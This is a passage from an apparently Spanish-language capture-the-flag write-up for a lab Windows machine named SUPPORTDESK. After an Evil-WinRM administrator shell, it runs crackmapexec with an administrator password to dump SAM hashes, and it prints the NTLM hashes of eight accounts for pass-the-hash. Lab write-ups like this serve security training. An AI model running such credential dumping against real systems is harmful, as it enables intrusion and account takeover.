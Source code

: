 ```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## Dumping SAM hashes

- Aquí tenemos los hashes de algunos **usuarios** para hacer `pass the hash`.

```bash
➜  content crackmapexec smb 10.129.116.26 -u 'Administrator' -p '4dD!5}x/re8]FBuZ' --sam
SMB         10.129.116.26   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.116.26   445    SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
SMB         10.129.116.26   445    SUPPORTDESK      [+] Dumping SAM hashes
SMB         10.129.116.26   445    SUPPORTDESK      Administrator:500:aad3b435b51404eeaad3b435b51404ee:10f08e9e3787aec843594cfd01f1a6a5:::
SMB         10.129.116.26   445    SUPPORTDESK      Guest:501:aad3b435b51404eeaad3b435b51404ee:d5dd356a1d8a41ceafcd92f3e1795a71:::
SMB         10.129.116.26   445    SUPPORTDESK      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.116.26   445    SUPPORTDESK      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:83f0f384401e2cb89df6f920af3254c7:::
SMB         10.129.116.26   445    SUPPORTDESK      Hazard:1008:aad3b435b51404eeaad3b435b51404ee:551f5fc818a8c5b65d19be1c977f5326:::
SMB         10.129.116.26   445    SUPPORTDESK      support:1009:aad3b435b51404eeaad3b435b51404ee:04456c45a7adb052b6a315cb64992516:::
SMB         10.129.116.26   445    SUPPORTDESK      Chase:1012:aad3b435b51404eeaad3b435b51404ee:bb2e1bf236b6219cb45811d5f2d55068:::
SMB         10.129.116.26   445    SUPPORTDESK      Jason:1013:aad3b435b51404eeaad3b435b51404ee:10608c8436315acb9c703aa7b2e04750:::
SMB         10.129.116.26   445    SUPPORTDESK      [+] Added 8 SAM hashes to the database
```
